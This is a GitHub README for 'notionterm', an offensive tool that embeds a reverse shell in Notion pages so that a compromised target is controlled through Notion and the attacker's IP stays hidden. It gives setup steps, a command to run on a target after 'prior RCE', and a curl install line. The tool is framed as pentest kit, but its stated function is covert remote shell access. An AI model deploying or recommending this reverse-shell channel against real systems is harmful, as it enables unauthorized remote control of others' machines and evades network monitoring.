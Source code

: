 <div align="center">
<h1>
  <code>notionterm</code> 
</h1>
  <img src="https://github.com/ariary/notionterm/blob/main/img/notionterm.png"  width=150>
  
  <strong> Embed reverse shell in <a href="https://www.notion.so">Notion</a> pages.</strong><br>
  <i>Hack while taking notes</i>
</div>

---

![demo](https://github.com/ariary/notionterm/blob/main/img/demo-first.gif)

---
<div align=left>
<h3>FOR ➕:</h3>
<ul>
  <li>Hide attacker IP in your reverse shell <i>(Notion ~ reverse proxy shell)</i></li>
  <li>Demo</li>
  <li>Quick proof insertion within report</li>
</ul> 
</div>
<div align=left>
<h3>NOT FOR ➖:</h3>
<ul>
  <li>Long and robust shell session (see <a href=https://github.com/ariary/tacos>tacos</a> for that)</li>
</ul> 

---
<div align=left>
<h3 >Why? 🤔 </h3>
The focus was on making something fun while still being usable, but that's not meant to be THE solution for reverse shell in your pentester's arsenal
</div>
<div align=right>
<h3 >How?  🤷‍♂️</h3>
Just use notion as usual and launch <code>notionterm</code>.
</div>
<div align=left>
<h3 >Requirements 🖊️</h3>
 <ul>
  <li>Notion software and API key</li>
  <li>Allowed bidirectionnal HTTP communication between host and target</li>
  <li>Prior RCE on target</li>
</ul> 
</div>

---
<blockquote align=left>
roughly inspired by the great idea of <a href="https://github.com/mttaggart/OffensiveNotion">OffensiveNotion</a> and <a href="https://github.com/ariary/Notionion">notionion</a>! 
</blockquote>

## Quickstart

**Set-up**
1. Create the "reverse shell" page in Notion (1 embed block, 1 code block)
2. Give the permissions to `notionterm` to access the page (with the notion api key)

**Run** ([details](#-run))

3. Start `notionterm`
4. Activate the reverse shell (with the button `ON`)
5. do your reverse shell stuff
6. Shutdown the reverse shell (`OFF`)

### 👟 Run

```shell
# On target with prior RCE
./notionterm --button=https://[TARGET_REACHABLE_IP]/button
```


## Install
* **From release**: `curl -lO -L https://github.com/ariary/notionterm/releases/latest/download/notionterm && chmod +x notionterm`
